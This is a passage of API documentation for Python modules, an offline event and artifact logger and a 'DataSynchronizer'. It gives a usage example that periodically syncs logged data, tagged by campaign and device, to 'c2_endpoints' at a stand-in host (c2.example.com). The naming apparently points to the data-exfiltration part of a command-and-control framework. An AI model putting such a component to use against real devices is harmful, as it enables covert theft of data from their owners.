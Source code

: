 **Key Methods:**
- `log_event(event_type, data, priority="normal")` - Log structured events
- `log_artifact(artifact_type, data, metadata=None)` - Log binary artifacts
- `get_bandwidth_metrics()` - Get current network metrics
- `get_storage_stats()` - Get storage statistics
- `cleanup_old_data(hours=24)` - Clean up old synced data

#### DataSynchronizer
```python
from data_sync import create_data_synchronizer

synchronizer = create_data_synchronizer(
    offline_logger,
    c2_endpoints=["https://c2.example.com/api/sync"],
    config={"sync_interval_seconds": 60}
)

synchronizer.start()
```

**Key Methods:**
- `start()` - Start the synchronization service
- `stop()` - Stop the synchronization service
- `force_sync(priority_filter=None)` - Force immediate sync
- `get_sync_status()` - Get current sync status
- `queue_sync_operation(entry_ids, priority=5)` - Queue manual sync

### Data Structures

#### LogEntry
```python
@dataclass
class LogEntry:
    id: str
    timestamp: float
    event_type: str
    campaign_id: str
    device_id: str
    data: Any
    compressed_size: int
    original_size: int
    sync_status: str = "pending"
    retry_count: int = 0
```

#### BandwidthMetrics
```python
@dataclass
class BandwidthMetrics:
    last_check: float
    download_speed: float  # KB/s
    upload_speed: float    # KB/s
    latency: float         # ms
    connection_type: str   # wifi, cellular, unknown
    quality: str           # excellent, good, poor, offline
```
